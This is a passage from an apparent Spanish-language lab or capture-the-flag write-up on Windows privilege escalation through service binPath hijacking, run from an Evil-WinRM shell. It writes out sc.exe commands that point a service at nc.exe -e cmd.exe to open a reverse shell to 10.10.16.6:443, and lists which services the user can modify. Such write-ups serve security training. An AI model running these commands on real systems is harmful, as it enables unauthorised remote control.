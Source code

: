 Pero no tengo acceso

```null
*Evil-WinRM* PS C:\Windows\Temp> sc.exe create revshell binPath="C:\Windows\Temp\nc.exe -e cmd.exe 10.10.16.6 443"
[SC] OpenSCManager FAILED 5:

Access is denied.
```

Puedo intentar manipular el binPath de un servicio ya existente


```null
*Evil-WinRM* PS C:\Windows\Temp> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                         True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys  True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                     True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                  True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                        False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                         False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                            True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                               True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                    True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                   True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                              False WMPNetworkSvc    
```

Es probable que no a todos los servicios tenga acceso

```null
*Evil-WinRM* PS C:\Windows\Temp> sc.exe config WMPNetworkSvc binPath="C:\Windows\Temp\nc.exe -e cmd.exe 10.10.16.6 443"
[SC] OpenService FAILED 5:

Access is denied.
```

Concretamente, solo puedo en VMTools
